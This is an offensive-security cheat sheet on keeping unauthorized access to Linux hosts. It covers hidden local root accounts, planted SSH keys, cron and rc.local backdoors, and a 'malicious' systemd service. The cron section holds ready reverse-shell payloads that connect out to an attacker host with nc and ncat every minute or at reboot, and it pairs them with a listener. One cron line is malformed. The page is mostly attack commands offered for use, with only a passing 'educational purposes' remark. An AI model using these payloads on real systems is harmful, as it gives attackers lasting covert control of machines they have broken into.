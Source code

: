 # Linux  Persistence

## **Persistence**

***

### **Creating Local Account**

***

Create a user with root privilege:

```jsx
sudo useradd -m -s /bin/bash ftp
```

Add the user to the sudo group to have administrative privileges:

```jsx
usermod -aG sudo ftp
```

Configure a password for the user "ftp":

```jsx
sudo passwd ftp
```

Check the user in the /etc/passwd file:

```jsx
cat /etc/passwd
```

### **Add a User with Sudo Privileges**

***

Create a new user

```jsx
sudo useradd -m -G sudo newuser
```

Set a password for the new user

```jsx
sudo passwd newuser
```

### **SSH Key Persistence**

***

Generate an SSH key pair

```jsx
ssh-keygen -t rsa
```

Copy the public key to the target user's authorized\_keys file

```jsx
ssh-copy-id -i ~/.ssh/id_rsa.pub user@target
```

### **Cron Job Persistence**

***

Edit the crontab

```jsx
ls -l /etc/crontab
crontab -e
```

Add a cron job (e.g., running a script at midnight)

```jsx
0 0 * * * /path/to/script.sh
```

Add a payload to run every minute

```jsx
* * * * nc -e /bin/sh <your-IP> <your-port>
```

Other payload (at reboot)

```jsx
(crontab -l; echo "@reboot sleep 200 && ncat 192.168.1.2 4242 -e /bin/bash") | crontab 2> /dev/null
```

Set up a Netcat listener in Kali

```jsx
nc -nvlp <your-port>
```

### **Startup Script Persistence**

***

Add a command to run at startup (modify the rc.local file or systemd service, depending on your system)

```jsx
sudo nano /etc/rc.local
```

Add your command before the "exit 0" line.

### **Malicious Service Persistence**

***

Create a malicious service (for educational purposes only)

```jsx
sudo nano /etc/systemd/system/malicious.service
```

Add a malicious ExecStart command.

```jsx
[Service] ExecStart=/path/to/malicious/script
```

Enable and start the service

```jsx
sudo systemctl enable malicious.service sudo systemctl start malicious.service
```
